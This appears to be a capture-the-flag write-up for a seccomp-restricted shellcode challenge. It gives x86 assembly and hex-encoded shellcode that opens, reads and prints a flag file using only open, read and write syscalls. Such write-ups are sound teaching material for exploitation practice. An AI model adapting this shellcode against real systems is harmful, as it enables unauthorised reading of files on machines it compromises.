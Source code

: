 reversing
=========

takes 200 bytes of shellcode and executes int
beforehand it calls orw_seccomp function which ensures only open, read, and write syscalls can be used (no execve)


exploitation
============

super simple. here is the shellcode i wrote:

```asm
push 0
push 0x67616c66 "ag"
push 0x2f2f2f77 "w/fl"
push 0x726f2f65 "e/or"
push 0x6d6f682f "/hom"

mov eax, 5
mov ebx, esp
xor ecx, ecx // O_RDONLY
xor edx, edx // file already exists
int 0x80

mov ebx, eax
mov eax, 3
mov ecx, 0x0804a060 // where our shellcode is stored
sub ecx, 50         // prob enough space
mov edx, 50         
int 0x80

mov eax, 4
mov ebx, 1
mov ecx, 0x0804a060
sub ecx, 50
mov edx, 50
int 0x80
```

and here is the encoded string: "\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\xB8\x05\x00\x00\x00\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x89\xC3\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9\x32\xBA\x32\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9\x32\xBA\x32\x00\x00\x00\xCD\x80"
